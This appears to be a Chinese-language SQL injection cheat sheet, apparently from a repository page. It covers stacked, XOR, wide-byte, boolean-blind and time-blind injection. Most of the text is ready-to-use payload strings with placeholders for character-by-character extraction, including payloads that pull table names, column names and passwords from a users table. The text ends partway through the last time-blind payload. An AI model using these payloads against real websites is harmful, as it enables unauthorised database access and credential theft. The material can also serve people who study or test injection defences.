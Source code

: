 ##### 堆叠注入

在SQL中每句指令都会以；结尾

可以通过对查询语句的闭合进行下一句的执行

可以通过这种方法对数据库进行操作

##### 異或注入

通过null与任何进行异或为null用来判断是否有过滤

```
?id=1' length('union')!=0
//如果页面报错，未过滤
//不报错，则为过滤
```

##### 寬字節注入

```
?id=%df'
```

##### 布爾盲注

```
// 判斷庫長度
length(database())>n 

//獲取表長度
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>0 %23

//獲取表長度
ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0},1))>{1} %23

//获取列名
ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),{0},1))>{1} %23"

//获取内容
ascii(substr((select password from users limit 0,1),{0},1))>{1} %23"
```

##### 時間盲注

```
if()判断前面为真，则运行后面；sleep()延时运行
//判断表长
if(length(database())>9,0,sleep(5)) --+

//获取表名
if((select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>0,sleep(5)) %23

//获取列名
if(ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),{0},1))>{1},0,sleep(5)) %23"

//获取内容
if(ascii(substr((select password from users limit 0,1),{0},1))>{1},0,sl
```
